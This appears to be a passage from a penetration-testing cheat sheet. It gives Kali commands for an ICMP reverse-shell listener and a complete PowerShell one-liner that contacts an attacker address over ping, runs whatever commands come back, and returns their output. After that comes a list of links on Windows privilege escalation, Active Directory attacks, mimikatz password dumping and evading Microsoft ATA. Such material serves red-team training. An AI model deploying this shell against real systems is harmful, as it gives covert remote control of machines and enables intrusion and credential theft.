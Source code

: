 

> ###### Reverse ICMP shell

Kali> sudo bash -c "echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all"
Kali> sudo python icmpsh_m.py $ATTACKER $TARGET

C:\> powershell -nop -Command "$IP = '10.10.14.42';$client = New-Object System.Net.NetworkInformation.Ping;$options = New-Object System.Net.NetworkInformation.PingOptions;$options.DontFragment = $true;$client.send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes('pie'), $options);while($true){$comms = $client.Send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes(''), $options);if($comms.Buffer){ $cmd = ([Text.Encoding]::ASCII).GetString($comms.Buffer);$reply = (Invoke-Expression -Command $cmd | Out-String);$client.send($IP, 1000, ([Text.Encoding]::ASCII).GetBytes($reply), $options);}}"



##### Services

[Windows Privilege Escalation via weak Service Permissions](http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/)

[The Art of Becoming TrustedInstaller](https://tyranidslair.blogspot.com/2017/08/the-art-of-becoming-trustedinstaller.html)

##### LDAP

[5 Ways to find Systems running domain admin processes](https://blog.netspi.com/5-ways-to-find-systems-running-domain-admin-processes/)

[I hunt SysAdmins part 1](http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/)

[I hunt SysAdmins part 2](https://www.slideshare.net/harmj0y/i-hunt-sys-admins-20)

[PenTesting Active Directory Environments: CrapMapExec](https://n0where.net/pentesting-active-directory/)

[Active Directory Privilege Relationships: BloodHound](https://n0where.net/active-directory-privilege-relationships-bloodhound/)

[Active Directory Architecture - MSDN](https://msdn.microsoft.com/en-us/library/bb727030.aspx)

[A Week of Evading Microsoft ATA Day 1](http://www.labofapenetrationtester.com/2017/08/week-of-evading-microsoft-ata-day1.html)

[Dumping a domains worth of passwords with mimikatz part 2](http://www.harmj0y.net/blog/powershell/dumping-a-domains-worth-of-passwords-with-mimikatz-pt-2/)

[Attack Methods for gaining Domain Admin](https://hackingandsecurity.blogspot.com/2017/07/attack-methods-for-gaining-domain-admin.html?view=timeslide)

[Find AD users with empty passwords](https://4sysops.com/archives/find-ad-users-with-empty-password-passwd_notreqd-flag-using-powershell/)

[Domain Trusts and why you should care](http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/)

[A PenTester's guide to group scoping](http://www.harmj0y.net/blog/activedirectory/a-pentesters-guide-to-group-scoping/)

[How to own any Windows network with group policy hijacking attacks](https://labs.mwrinfosecurity.com/blog/how-to-own-any-windows-network-with-group-policy-hijacking-attacks/)
